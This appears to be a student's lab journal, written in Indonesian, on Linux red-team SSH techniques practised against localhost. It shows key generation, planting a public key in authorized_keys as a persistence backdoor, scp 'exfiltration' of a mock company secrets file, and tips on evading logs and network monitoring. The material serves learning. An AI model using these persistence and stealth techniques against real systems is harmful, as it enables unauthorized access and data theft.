



# 🏴‍☠️ Linux Red Team Operations - Day 8

**Topic:** SSH, Remote Access & Lateral Movement

**Date:** 2026-02-06

**Status:** Completed ✅

**Author:** Adrian

---

## 🎯 Objective
Hari ini fokus mempelajari **SSH (Secure Shell)** sebagai sarana utama untuk:
1.  **Remote Access:** Mengontrol komputer target dari jarak jauh.
2.  **Lateral Movement:** Bergerak dari satu mesin ke mesin lain dalam jaringan.
3.  **Data Exfiltration:** Mencuri data menggunakan protokol terenkripsi (SCP).
4.  **Persistence:** Menanam SSH Key agar bisa login kembali tanpa password.

---

## 1. Reconnaissance & Setup
Langkah pertama adalah memastikan service SSH berjalan di target (dalam lab ini, targetnya adalah localhost) dan mengetahui IP Address kita.

```bash
sudo service ssh start
whoami
ip addr
```

* `sudo service ssh start` (Mengaktifkan SSH Daemon).
* `ip addr` (Mengidentifikasi IP Loopback `127.0.0.1`).
* `whoami` (Verifikasi user aktif).



---

## 2. Weaponization: SSH Key Generation
Daripada menebak password, Red Team lebih memilih menggunakan **SSH Keys**. Kita membuat pasangan kunci (Private & Public).

```bash
ssh-keygen -f kunciku
```
* **Algorithm:** Menggunakan **ed25519** (Standar kriptografi modern yang lebih cepat dan aman dibanding RSA lama).
* **Passphrase:** Dikosongkan (Empty) agar bisa dipakai untuk automasi script.


---

## 3. Exploitation & Lateral Movement (The Attack)
Tahap paling teknis. SSH memiliki fitur keamanan ketat yang menolak kunci dengan permission sembarangan. Kita juga menanam kunci publik kita ke server target agar bisa masuk kapan saja.

**Langkah-langkah:**
```bash
chmod 600 kunciku
cat kunciku.pub >> ~/.ssh/authorized_keys
ssh -i kunciku adrian-dwi@127.0.0.1
```
1.  **Hardening Key:** `chmod 600 kunciku` (Wajib! Agar hanya pemilik yang bisa baca).
2.  **Planting Backdoor:** `cat kunciku.pub >> ~/.ssh/authorized_keys` (Memasukkan kunci kita ke daftar "tamu resmi").
3.  **Access:** `ssh -i kunciku ...` (Login menggunakan kunci, bypass password).
   


---

## 4. Data Exfiltration (Looting via SCP)
Setelah akses didapat, tujuan utamanya adalah mengambil data. Menggunakan **SCP (Secure Copy Protocol)** untuk mentransfer file `rahasia_perusahaan.txt` dari server korban ke mesin penyerang.

```bash
scp -i kunciku rahasia_perusahaan.txt adrian-dwi@127.0.0.1:/tmp/rahasia_curian.txt
ls -l /tmp/rahasia_curian.txt
cat /tmp/rahasia_curian.txt
ssh -i kunciku adrian-dwi@127.0.0.1 'id; whoami; hostname'
```

* **Command:** `scp -i kunciku <sumber> <tujuan>`
* **Scenario:** Mengambil file dari direktori user ke folder `/tmp/` attacker.



---

## 5. Advanced Tactics: Non-Interactive Execution
Teknik "Hit and Run". Digunakan untuk *reconnaissance* cepat atau oleh Botnet untuk menjalankan perintah di ribuan server sekaligus tanpa meninggalkan jejak login shell yang lama.

```bash
ssh -i kunciku adrian-dwi@127.0.0.1 'whoami; date'
```

* **Syntax:** `ssh -i <key> user@ip "command1; command2"`
* **Result:** Output langsung muncul di terminal penyerang, koneksi langsung putus.



---

## 🧠 Lessons Learned (Red Team Perspective)

Dari praktek hari ini, ada 5 poin krusial yang dipelajari:

1.  **Permission is Everything (chmod 600):**
    * *Why?* SSH Client sangat paranoid. Jika file Private Key memiliki permission `644` (bisa dibaca orang lain/group), SSH akan menganggap kunci itu "compromised" dan menolak memakainya.
    * *Fix:* Selalu jalankan `chmod 600` pada private key segera setelah dibuat/dicuri.

2.  **The "Authorized_Keys" Vulnerability:**
    * File `~/.ssh/authorized_keys` adalah "Cawan Suci" untuk Persistence. Jika kita bisa menulis (write) ke file ini, kita memiliki akses permanen ke server tersebut, meskipun admin mengganti password user berkali-kali.

3.  **SCP vs FTP:**
    * Sebagai Red Teamer, selalu pilih SCP atau SFTP dibanding FTP biasa. SCP berjalan di atas SSH (Port 22), sehingga traffic file terenkripsi dan sulit diendus (sniffing) oleh Blue Team/Network Admin.

4.  **Non-Interactive Shells:**
    * Login penuh (`/bin/bash`) meninggalkan log yang jelas di `w` atau `last`. Eksekusi non-interaktif (`ssh user@host "cmd"`) lebih *stealthy* dan efisien untuk automasi serangan massal.

5.  **Algorithm Matters:**
    * Kita menggunakan `ed25519` hari ini. Dalam dunia nyata, hindari `rsa` dengan bit rendah (1024) karena sudah dianggap lemah. Standar minimal saat ini adalah RSA-2048 atau ED25519.
